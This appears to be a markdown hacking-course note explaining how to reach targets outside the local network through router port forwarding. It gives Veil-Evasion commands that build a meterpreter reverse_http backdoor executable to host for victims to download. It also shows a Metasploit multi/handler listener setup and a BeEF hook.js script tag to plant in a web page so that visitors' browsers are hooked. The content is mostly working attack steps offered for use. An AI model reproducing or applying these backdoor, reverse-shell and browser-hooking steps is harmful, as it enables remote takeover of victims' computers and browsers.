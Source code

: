 # Gaining Access - Using the above attacks outside the local network

Network router has a private and a public ip-address.
If you want to hack a target you need to edit your router settings;
In your backdoors, your ip address you are listening on, has to be your routers public ip address.
`Google: what's my ip`

### example 1
You send a backdoor to a target computer, and you are listening to port 8080
Your router gets the reverse connection from the target computer but does not know what to do with it.
You need to configure the port forwarding in the router in a way that port 8080 reverse connections are forwarded to the hackers private ip.
If you use a webserver where your backdoor is stored, and whereto you link the target to download your backdoor, you need to open that port as well. (Port 80)


Make a backdoor
```
> veil
> list
> use 9 (meterpreter/reverse_http)
>> LHOST 89.100.145.189 (the public ip from router)
>> generate
```
name: backdoor.exe
*Stored at: /var/lib/veil-evasion/output/compiled/backdoor.exe
Copy to webserver in /var/www/html

Listen for incomming http connections on local ip (because the router will forward the reverse connection on port 8080)
```
> msfconsole
>> use exploit/multi/handler
>>> set PAYLOAD windowss/meterpreter/reverse_http
>>> set LPORT 8080
>>>set LHOST 192.168.0.11 (private ip of own computer)
>>> exploit
```

### Example 2 (Beef)

Start Beef and login with beef, beef
copy the scriptcode next to Example and paste it into the index.xtml in /var/www/html
change the public ip from router: (code looks like this)
`<script src="http://89.100.145.189:3000/hook.js"></script>`

Enable port 3000 in router settings forwarding to private address of computer.
If the target goes to your webserver, it get's hooked.

### Forward all the ports from router to the hackers machine
